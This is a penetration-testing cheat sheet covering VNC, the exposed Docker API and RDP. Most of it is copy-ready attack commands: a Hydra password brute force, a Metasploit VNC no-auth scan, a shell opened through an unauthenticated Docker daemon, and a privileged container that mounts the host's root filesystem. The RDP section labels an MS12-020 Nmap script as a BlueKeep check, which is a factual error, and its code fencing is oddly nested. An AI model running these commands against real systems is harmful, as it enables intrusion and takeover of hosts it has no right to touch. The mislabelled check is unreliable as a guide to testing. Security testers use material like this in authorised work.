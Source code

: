 
## 🔌 Port 5900 - VNC
**Service:** Virtual Network Computing  
**Common vulns:** Weak/no authentication

### Exploitation
```bash
# Connect
vncviewer $TARGET:5900

# Brute force
hydra -P passwords.txt vnc://$TARGET

# Metasploit
msfconsole -q -x "use auxiliary/scanner/vnc/vnc_none_auth; set RHOSTS $TARGET; run"
```

---

## 🐳 Port 2375 - Docker
**Service:** Docker API  
**Common vulns:** Unauthenticated API

### Exploitation
```bash
# List containers
docker -H tcp://$TARGET:2375 ps

# Get shell
docker -H tcp://$TARGET:2375 exec -it container_id /bin/bash

# Create privileged container
docker -H tcp://$TARGET:2375 run -it -v /:/host --privileged ubuntu bash
```

---

```markdown
# 🖥️ Port 3389 - RDP (Remote Desktop Protocol)

**Common Vulnerabilities**: Weak passwords, exposed service to internet, known vulnerabilities like BlueKeep

## What to Check

- Check if the service is exposed without network-level authentication (NLA)
- Look for default or weak credentials
- Check for known vulnerabilities (e.g., CVE-2019-0708 BlueKeep)

## Enumeration

```bash
# Basic connection check
nc -nv $TARGET 3389

# Nmap scanning for vulnerabilities
nmap -p 3389 --script rdp-ntlm-info $TARGET
nmap -p 3389 --script rdp-enum-encryption $TARGET

# Check for BlueKeep vulnerability
nmap -p 3389 --script rdp-vuln-ms12-020 $TARGET
```
